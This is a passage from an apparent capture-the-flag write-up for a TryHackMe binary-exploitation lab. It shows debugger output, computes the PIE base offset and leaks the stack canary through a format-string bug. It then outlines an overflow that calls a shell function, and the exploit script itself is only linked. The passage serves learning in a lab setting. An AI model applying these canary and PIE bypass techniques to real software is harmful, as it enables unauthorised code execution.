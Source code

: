  ```
   0x555555400a8f                      nop    
   0x555555400a90 <__libc_csu_init>    push   r15
───────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffde60 ◂— 0xa6c6f6c /* 'lol\n' */
01:0008│     0x7fffffffde68 ◂— 0x0
... ↓        3 skipped
05:0028│     0x7fffffffde88 —▸ 0x7ffff7fe6e10 (dl_main) ◂— push rbp
06:0030│     0x7fffffffde90 ◂— 0x0
07:0038│     0x7fffffffde98 ◂— 0xde96d2eee6ebeb00
─────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────
 ► f 0   0x555555400a69 main+215
   f 1   0x7ffff7df018a __libc_start_call_main+122
   f 2   0x7ffff7df0245 __libc_start_main+133
   f 3   0x5555554007aa _start+42
────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg>
```

With this i'll get the value of what the leaked address is

```
pwndbg> x 0x555555400992
0x555555400992 <main>:  0xe5894855
pwndbg> x 0x555555400992 - 0x555555400000
0x992:  Cannot access memory at address 0x992
pwndbg>
```

So with this we know that the offset of the piebase address is `0x992` 

Next thing is to leak the stack canary address 

And stack canary address ends with `00` making it not difficult to be known

Using the fuzzing script i'll get the offset where the stack canary is

But i already got it to know that its at offset 13

```
└─$ python3 fuzz.py                         
13: b'0xd6b190b256ee5f00\n'
```

From here I'll make a script which will do this:

```
1. Use format string vuln to leak the pie & canary address
2. Strip out those addresss 
3. Overflow rip to call the shel func
4. Make sure to overflow the canary to its value
```

Here's the local solve script [Local_exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/pwn101/pwn107_local.py)
